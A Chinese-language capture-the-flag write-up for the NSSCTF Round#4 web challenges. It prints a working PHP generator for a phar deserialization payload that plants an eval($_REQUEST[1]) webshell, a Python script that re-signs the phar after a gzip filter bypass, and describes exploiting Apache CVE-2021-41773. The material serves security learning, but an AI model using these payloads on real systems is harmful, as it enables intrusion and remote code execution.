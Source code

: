 ```yaml
---
title: "NSSCTF Round#4 Web Writeup"
date: 2022-08-03T22:12:24+08:00
draft: false
author: "X1r0z"

tags: ['ctf','php']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


等 ez_web (revenge) 出来才发现原来的 ez_web 直接读 /flag 就行...

ez_rce 一开始因为没装插件的原因一直想不出来 (被打)

<!--more-->

## 1zweb

![20220803125540](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803125540.png)

查询文件处可以读文件

index.php

```php
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct(){
        $this->ljt="ljt";
        $this->dky="dky";
        phpinfo();
    }
    public function __destruct(){
        if($this->ljt==="Misc"&&$this->dky==="Re")
            eval($this->cmd);
    }
    public function __wakeup(){
        $this->ljt="Re";
        $this->dky="Misc";
    }
}
$file=$_POST['file'];
if(isset($_POST['file'])){
    echo file_get_contents($file);
}
```

upload.php

```php
<?php
if ($_FILES["file"]["error"] > 0){
    echo "上传异常";
}
else{
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if (($_FILES["file"]["size"] && in_array($extension, $allowedExts))){
        $content=file_get_contents($_FILES["file"]["tmp_name"]);
        $pos = strpos($content, "__HALT_COMPILER();");
        if(gettype($pos)==="integer"){
            echo "ltj一眼就发现了phar";
        }else{
            if (file_exists("./upload/" . $_FILES["file"]["name"])){
                echo $_FILES["file"]["name"] . " 文件已经存在";
            }else{
                $myfile = fopen("./upload/".$_FILES["file"]["name"], "w");
                fwrite($myfile, $content);
                fclose($myfile);
                echo "上传成功 ./upload/".$_FILES["file"]["name"];
            }
        }
    }else{
        echo "dky不喜欢这个文件 .".$extension;
    }
}
?>
```

有一个类 LoveNSS, 想到了 phar 反序列化

这里也没啥 pop 链的, 直接改字段

payload

```php
<?php

class LoveNss{
    public $ljt = "Misc";
    public $dky = "Re";
    public $cmd = 'eval($_REQUEST[1]);';

}

$o = new LoveNss();

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

但是 upload.php 会检测文件中是否含有 `__HALT_COMPILER();` 这个关键字

大小写绕过无效, phar 不解析

网上搜了一下发现 phar 绕过的新姿势

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

可以通过 tar gzip bzip2 的方式压缩 phar 文件, PHP 处理时会自动解压缩并且解析里面的 phar

同时这里存在 `__wakeup`, 可以改数字绕过

> 当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 __wakeup 的执行

Linux 下使用 `gzip phar.phar` 压缩, 改后缀为 png 上传

![20220803130051](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130051.png)

报错 `broken signature`

PHP 官方手册查了一下发现有签名校验

网上搜了好长时间都没结果... 然后想起来前几天的强网杯 easyweb 也是要绕过 `__wakeup`

于是换了个关键词在 Google 上搜了一会就出来了...

[https://www.wangan.com/p/7fy78yfaa40486ed#easyweb](https://www.wangan.com/p/7fy78yfaa40486ed#easyweb)

[http://www.yongsheng.site/2022/05/14/phar/](http://www.yongsheng.site/2022/05/14/phar/)

贴一下改签的脚本

```python
from hashlib import sha1

file = open('phar.phar','rb+').read()

text = file[:-28]

last = file[-8:]

new_file = text + sha1(text).digest() + last

open('new.phar','wb').write(new_file)
```

本地运行后改后缀上传

![20220803130513](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130513.png)

上传成功

![20220803130554](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130554.png)

链接

![20220803130700](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130700.png)

![20220803130713](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130713.png)

## 1zweb (revenge)

和上面的一样基本没区别

index.php 略有改动

```php
if(isset($_POST['file'])){
    if (preg_match("/flag/i", $file)) {
    	die("nonono");
    }
    echo file_get_contents($file);
}
```

md 看了才知道原来那题直接读 /flag 就行...

wp 同上


## ez_rce

这题一开始没做出来, 原因是没装 Wappalyzer...

![20220803220146](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220146.png)

apache 2.4.49

存在一个路径穿越漏洞 CVE-2021-41773

[https://www.cnblogs.com/RichardYg/p/16272797.html](https://www.cnblogs.com/RichardYg/p/16272797.html)

目录遍历的 exp 测试失败, 命令执行 exp 测试成功

![20220803220317](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220317.png)

有一个 `flag_is_here` 文件夹

![20220803220342](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220342.png)

一共四层文件夹, 每一个文件夹都是 0-9

![20220803220428](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220428.png)

明显需要爆破一下

![20220803220458](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220458.png)

Attack type 设置为 Cluster bomb

这样一共就是 `10*10*10*10` 的 payload

![20220803221112](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803221112.png)

得到 flag